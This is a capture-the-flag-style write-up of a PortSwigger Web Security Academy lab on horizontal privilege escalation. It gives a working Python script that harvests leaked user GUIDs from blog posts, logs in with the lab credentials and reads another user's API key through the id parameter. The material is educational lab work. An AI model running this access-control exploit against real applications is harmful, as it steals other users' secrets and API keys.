 ```yaml
---
title: User ID controlled by request parameter, with unpredictable user IDs
tags:
  - web-app
  - access
  - control
  - vulnerability
---
```


<a href="https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-unpredictable-user-ids/">
4. User ID controlled by request parameter, with unpredictable user IDs</a>

Fun problem. We have to access carlos' API key in his my-account/ page, however,
we need to know his userId. This is an example of horizontal privilege
escalation. The userIds are GUIDs and unpredictable, so we need to find
somewhere on the site where the userIds are exposed.

Reading the blog posts on the front page, if a user makes a post, their userId
is exposed in the HTML. We scrape the blogs until we find carlos' userId. We
login with known credentials, wiener:peter, and then we visit the
my-account?id=/ page with carlos' userId. carlos' API key will be exposed in the
HTML, which we provide to the submitSolution/ page.

Solution:

```python
# usage:
# python3 4.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net \
# --w carlos

import re
from argparse import ArgumentParser

import requests


def solve(url: str, who: str) -> None:
    s = requests.Session()
    url = url.rstrip("/")
    post_url = f"{url}/post?postId="
    login_url = f"{url}/login"
    submission_url = f"{url}/submitSolution"

    i = 0
    userId = None
    while not userId:
        r = s.get(post_url + str(i))
        if r.status_code == 200:
            if who in r.text:
                userId = re.findall(r"userId=(\w+\-\w+\-\w+\-\w+\-\w+)", r.text)[0]

        i += 1

    r = s.get(login_url)
    csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
    r = s.post(
        login_url,
        data={
            "csrf": csrf,
            "username": "wiener",
            "password": "peter",
        },
    )

    account_url = f"{url}/my-account?id={userId}"

    r = s.get(account_url)
    api_key = re.findall(r"Your API Key is: (\w+)", r.text)[0]
    r = s.post(
        submission_url,
        data={
            "answer": api_key,
        },
    )


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    args = parser.parse_args()
    solve(args.url, args.who)


if __name__ == "__main__":
    main()
```
